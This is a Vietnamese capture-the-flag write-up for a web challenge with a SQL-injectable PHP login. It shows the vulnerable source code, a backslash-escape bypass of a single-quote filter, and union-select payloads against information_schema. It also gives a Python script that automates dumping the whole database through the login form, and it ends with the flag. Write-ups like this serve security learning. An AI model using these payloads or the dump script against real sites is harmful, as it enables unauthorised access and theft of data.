 # [Chung Kết] Web: Cửa hàng đồ chơi Quận 4

## Cái gì đếy?

![chall](./images/chall.png)

Đây là một bài SQLi khá là cơ bản nhưng mà không hiểu vì lí do gì mình lại stuck khá lâu ở bài này. Có lẽ mình đã già .__.

## Phân tếch

Khi mình vừa bấm vào link thì sẽ có một cái trang login spot ra trông như thế lày:

![login](./images/login.png)

Các bạn để ý thì sẽ thấy có một cái button `Xem mã nguồn` sẽ dẫn mình đến source code của phần login.

```php
<?php
    if (isset($_GET['source'])) { 
        highlight_file(__FILE__); 
        die(); 
    }
    include("config.php");
    session_start();
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        try {
            // Vậy chắc an toàn rồi!
            if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

            $sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
        } catch(PDOException $e) {
            $message =  "Ôi không, có gì đó sai sai. Hãy thử lại vào lúc khác nha 😅";
        }
    }
    if (isset($_SESSION['username']))
        die(header("location: shopping.php"));
?> 

```

Ở đây, mình đetéct được một đoạn vunerable code:

```php
if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

$sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
```

Trông có vẻ như `preg_match` chỉ filter dấu `'` thôi nên mọi chuyện khá ez xD.

## Solútion

### Bypass login fỏm

Quay lại đoạn check login phía bên trên, khi mình thử nhập tên là `admin` và mật khẩu là `12345` thì đoạn query sẽ trông như sau:

```php
select username from users where username='admin' and password='12345'
```

Vì không thể dùng `'` như bình thường được nên mình dùng dấu `\` để escape luôn dấu `'` ngay phần `username`, sau khi nhập tên là `\` thì đoạn query sẽ trở thành như thế này:

```php
select username from users where username='\' and password='12345'
```

Bạn thấy chứ? Đoạn mật khẩu `12345` mình vừa nhập đã chui ra khỏi string. Từ đó mình có đoạn injection như sau:

```sql
username: \
password: or username="admin"#
```

Bùm, không có flag :<

![shop](./images/shop.jpg)

### Blind SQL Injection

Vì không thấy flag nên mình đoán là flag sẽ là password của `admin` hoặc là username/password của một user nào đó. Dự là như vậy nên mình dùng `Blind SQLi` để bruteforce password.

> Chả hiểu sao khúc này mình lại đi brutefỏce trong khi có thể dùng `union select` =))

Sau một hồi loay hoay thì mình nhận được password của `admin` chính là `admin` và vẫn chưa thấy flag :>

![dog](./images/dog.jpg)

### Diging into database

Có vẻ như dòng chữ `Xin chào admin.` ở trên kia là nơi trả về kết quả của đoạn query hồi nãy. Thử query `version()` thì mình nhận được:

```sql
union select version()#
```

![version](./images/version.jpg)

`8.0.26`? Là version của MySQL nên mình có thể dùng hàm `group_concat` được.
Mình quyết định tìm kiếm trong các table khác và nhận được một đống table có vẻ như không liên quan.

```sql
union select group_concat(table_name) from information_schema.tables#
```

![tables](./images/tables.jpg)

Mình không biết dùng `sqlmap` nên chỉ thử được một vài table. Nhiều quá nên mình viết hẳn một cái script để dump luôn database. Sau khi dump xong mình vẫn không tìm thấy flag ?? :) ??

![cat](./images/cat.jpg)

Và mình rơi vào betak.

### Database nào cơ????

![hint](./images/hint.png)

Sau khi nhận được hint từ anh `nyancat` thì mình mới nhớ ra trong một hệ quản trị CSDL có nhiều database khác nhau và mình vừa tìm flag ở trong một cái database lạ hoắc .__. *sosadboiz...*

Oce let's try it.

```sql
union select database()#
```

Seem good ;3

![db](./images/db.jpg)

Mình dùng luôn đoạn script lúc nãy để dump cái `myDB` này, mình đã quá mệt mỏi rồi :<<

```python
import requests
import json
import re

URL = 'http://shop.kid.cyberjutsu-lab.tech/login.php'

def query(cmd):
    r = requests.post(URL, data={
        'username': '\\',
        'password': cmd + '#'
    })
    try:
        return re.findall('Xin chào (.*).\\r', r.text)[0].split(',')
    except:
        return None

def list2dict(a):
    if a:
        return { x: None for x in a }
    else:
        return None

db = list2dict(query('union select group_concat(table_name) from information_schema.tables where table_schema=database()'))

for table_name in db.keys():
    print('querying:', table_name)
    columns = list2dict(query(f'union select group_concat(column_name) from information_schema.columns where table_name="{table_name}"'))
    db[table_name] = columns

    for column_name in columns:
        print(f'querying: {table_name}.{column_name}')
        values = query(f'union select group_concat({column_name}) from {table_name}')
        db[table_name][column_name] = values

with open('db.json', 'w') as w:
    w.write(json.dumps(db, indent=4, sort_keys=True))
```

Mở file `db.json` lên và mình tìm thấy flag... ***p r 0 v j p***

```json
{
    "authors": {
        "added": null,
        "birthdate": null,
        "email": null,
        "first_name": null,
        "id": null,
        "last_name": null
    },
    "flag_304ad593": {
        "flag_3e53dc": [
            "CTF{pleAs3_doNt_r3invent_th3_whe3L}"
        ]
    },
```

Flag:

```
CTF{pleAs3_doNt_r3invent_th3_whe3L}
```

That's end. Hy vọng bạn thích bài viết này của mình <3
